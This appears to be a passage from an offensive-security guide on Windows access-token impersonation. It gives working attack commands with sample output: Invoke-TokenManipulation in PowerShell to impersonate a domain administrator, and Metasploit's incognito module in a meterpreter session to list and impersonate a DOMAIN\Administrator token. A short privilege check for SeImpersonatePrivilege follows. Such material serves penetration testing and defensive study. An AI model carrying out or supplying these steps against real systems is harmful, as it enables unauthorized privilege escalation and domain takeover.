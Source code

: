 ```bash
No tokens available
```

### Using PowerShell
```powershell
# Import the module
Import-Module .\Invoke-TokenManipulation.ps1

# List available tokens
Invoke-TokenManipulation -ShowAll

# Impersonate specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\administrator"
```

## Token Impersonation Techniques

### Method 1: Incognito (Metasploit)
```bash
# 1. Get meterpreter session as SYSTEM or high-privilege user
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

# 2. Load incognito module
meterpreter > load incognito
Loading extension incognito...Success.

# 3. List available tokens
meterpreter > list_tokens -u

# 4. Impersonate high-value token
meterpreter > impersonate_token DOMAIN\\Administrator
[+] Delegation token successfully impersonated (user: DOMAIN\Administrator)

# 5. Verify impersonation
meterpreter > getuid
Server username: DOMAIN\Administrator

# 6. Drop to shell and confirm
meterpreter > shell
C:\> whoami
domain\administrator
```

### Method 2: Manual Token Manipulation
```bash
# Check current privileges
whoami /priv

# Look for key privileges:
# - SeImpersonatePrivilege
# - SeAssignPrimaryTokenPrivilege
# - SeDebugPrivilege

# If you have these privileges, you can use various tools
# to perform token impersonation
```
